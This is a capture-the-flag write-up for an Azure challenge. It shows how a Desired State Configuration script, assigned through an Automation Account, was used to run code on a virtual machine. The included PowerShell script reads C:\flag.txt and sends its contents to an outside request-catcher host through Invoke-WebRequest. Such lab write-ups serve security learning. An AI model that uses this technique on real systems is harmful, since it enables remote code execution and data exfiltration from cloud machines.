 # DSC

## Challenge

![](img/2022-11-08-21-54-03.png)

## Solution

The name of the challenge, DSC, refers to Desired State Configuration. It is a mechanism for using scripts to define a state you want your virtual machines to have.

With DSC you can define a script which can create files, install applications and features, run configuration scripts etc.

The "State configuration (DSC)" option is under the Automation Account.

![](img/2022-11-08-22-56-04.png)

To create a new configuration using the Portal you first have to go to the Configurations tab, and then click the Add button in the top. If you click Add without going to Configurations tab first you get a different Add-experience.

This is the script used to solve the challenge and get the flag. The script was written by my teammate Goophy, which was the one who solved the challenge for us during the CTF.

```powershell
Configuration stest
{
    Import-DscResource -ModuleName 'PSDesiredStateConfiguration'

    Node localhost
    {
        Script ScriptExample
        {
           SetScript = {
               $foo = Get-Content -Path C:\flag.txt
               Invoke-WebRequest -URI "https://fizzbuzz.requestcatcher.com/$foo"
           }
           TestScript = { Test-Path "C:\foo.txt" }
           GetScript = { @{ Result = (Get-Content C:\flag.txt) } }
        }
    }
}
```

![](img/2022-11-08-23-07-10.png)

As an alternative to the Portal it is also possible to create the configuration using the `Import-AzAutomationDscConfiguration` command.

After creating the configuration, you need to click on it in the Portal, click on Compile, and wait for compilation job to complete.

![](img/2022-11-09-20-57-08.png)

Then go back to the Automation Account, and click on the virtual machine we want to run the script on.

![](img/2022-11-09-20-58-10.png)

Click "Assign node configuration"

![](img/2022-11-09-20-58-44.png)

Select the "stest" configuration we just made.

![](img/2022-11-09-20-59-08.png)

The configuration is Pending

![](img/2022-11-09-21-01-32.png)

After a while the flag is sent to us

![](img/2022-11-09-21-12-42.png)

```
EPT{a4e81c6d-12bb-abcd-9d89-3fb862373568}
```

This YouTube video does a nice job of explaining DSC: https://www.youtube.com/watch?v=2OfTnwwxLvY
